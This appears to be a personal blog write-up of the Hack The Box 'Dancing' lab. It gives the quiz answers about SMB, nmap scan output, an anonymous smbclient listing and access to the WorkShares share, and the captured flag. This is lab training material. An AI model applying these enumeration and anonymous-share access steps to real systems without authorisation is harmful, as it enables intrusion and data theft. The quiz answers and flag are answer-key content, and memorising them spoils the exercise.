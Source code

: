 ```yaml
---
layout: post
title: "Dancing"
date: 2022-05-12
image: ../../assets/img/Posts/dancing.png
categories: [HTB, Starting Point, Tier 0]
tags: [windows, smb, smbclient]
---
```


#### What does the 3-letter acronym SMB stand for?

`Server Message Block`

#### What port does SMB use to operate at?

`445`

#### What network communication model does SMB use, architecturally speaking?

`client-server model`

#### What is the service name for port 445 that came up in our nmap scan?

```bash
➜  kali nmap -sC -sV -p445 -Pn 10.129.159.248
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-15 08:10 EST
Nmap scan report for 10.129.159.248
Host is up.

PORT    STATE    SERVICE      VERSION
445/tcp filtered microsoft-ds

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.58 seconds
```

`microsoft-ds`

#### What is the tool we use to connect to SMB shares from our Linux distribution?

`smbclient`

#### What is the `flag` or `switch` we can use with the SMB tool to `list` the contents of the share?

`-L`

#### What is the name of the share we are able to access in the end?

`WorkShares`

#### What is the command we can use within the SMB shell to download the files we find?

`get`

#### Submit root flag

```bash
➜  nmap -sC -sV -p- -T4 -Pn 10.129.140.230
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-22 08:09 EST
Nmap scan report for 10.129.140.230 (10.129.140.230)
Host is up (0.24s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3h59m59s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-12-22T17:23:45
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 849.55 seconds
```

```bash
➜  smbclient -L ////10.129.140.230//
Enter WORKGROUP\root's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
SMB1 disabled -- no workgroup available
```

```bash
➜  smbclient \\\\10.129.140.230\\WorkShares
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1728838 blocks available
smb: \> cd Amy.J\
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 05:08:24 2021
  ..                                  D        0  Mon Mar 29 05:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 07:00:37 2021

                5114111 blocks of size 4096. 1728838 blocks available
smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1748693 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \James.P\> exit
➜  cat flag.txt
5f61c10dffbc77a704d76016a22f1664#
➜  cat worknotes.txt
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing #
```

`HTB{5f61c10dffbc77a704d76016a22f1664}`
